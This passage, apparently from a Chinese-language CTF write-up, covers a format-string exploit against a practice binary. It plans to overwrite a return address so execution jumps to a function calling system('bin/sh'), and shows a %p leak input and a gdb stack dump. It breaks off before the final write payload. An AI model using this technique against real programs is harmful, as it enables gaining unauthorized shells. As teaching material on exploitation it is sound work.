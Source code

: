 好，這就差不多了。此外，也可以發現這個賬號密碼其實沒啥配對不配對的。

#### 利用思路

我們最終的目的是希望可以獲得系統的 shell，可以發現在給定的文件中，在 0x00000000004008A6 地址處有一個直接調用system('bin/sh') 的函數（關於這個的發現，一般都會現在程序大致看一下。）。那如果我們修改某個函數的返回地址爲這個地址，那就相當於獲得了 shell。

雖然存儲返回地址的內存本身是動態變化的，但是其相對於 rbp 的地址並不會改變，所以我們可以使用相對地址來計算。利用思路如下

- 確定偏移
- 獲取函數的 rbp 與返回地址
- 根據相對偏移獲取存儲返回地址的地址
- 將執行 system 函數調用的地址寫入到存儲返回地址的地址。

#### 確定偏移

首先，我們先來確定一下偏移。輸入用戶名 aaaaaaaa，密碼隨便輸入，斷點下在輸出密碼的那個 printf(&a4 + 4) 函數處

```text
Register Account first!
Input your username(max lenth:20): 
aaaaaaaa
Input your password(max lenth:20): 
%p%p%p%p%p%p%p%p%p%p
Register Success!!
1.Sh0w Account Infomation!
2.Ed1t Account Inf0mation!
3.QUit sangebaimao:(
>error options
1.Sh0w Account Infomation!
2.Ed1t Account Inf0mation!
3.QUit sangebaimao:(
>1
...
```

此時棧的情況爲

```text
─────────────────────────────────────────────────────────[ code:i386:x86-64 ]────
     0x400b1a                  call   0x400758
     0x400b1f                  lea    rdi, [rbp+0x10]
     0x400b23                  mov    eax, 0x0
 →   0x400b28                  call   0x400770
   ↳    0x400770                  jmp    QWORD PTR [rip+0x20184a]        # 0x601fc0
        0x400776                  xchg   ax, ax
        0x400778                  jmp    QWORD PTR [rip+0x20184a]        # 0x601fc8
        0x40077e                  xchg   ax, ax
────────────────────────────────────────────────────────────────────[ stack ]────
0x00007fffffffdb40│+0x00: 0x00007fffffffdb80  →  0x00007fffffffdc30  →  0x0000000000400eb0  →   push r15	 ← $rsp, $rbp
0x00007fffffffdb48│+0x08: 0x0000000000400d74  →   add rsp, 0x30
0x00007fffffffdb50│+0x10: "aaaaaaaa"	 ← $rdi
0x00007fffffffdb58│+0x18: 0x000000000000000a
0x00007fffffffdb60│+0x20: 0x7025702500000000
0x00007fffffffdb68│+0x28: "%p%p%p%p%p%p%p%pM\r@"
0x00007fffffffdb70│+0x30: "%p%p%p%pM\r@"
0x00007fffffffdb78│+0x38: 0x0000000000400d4d  →   cmp eax, 0x2
```
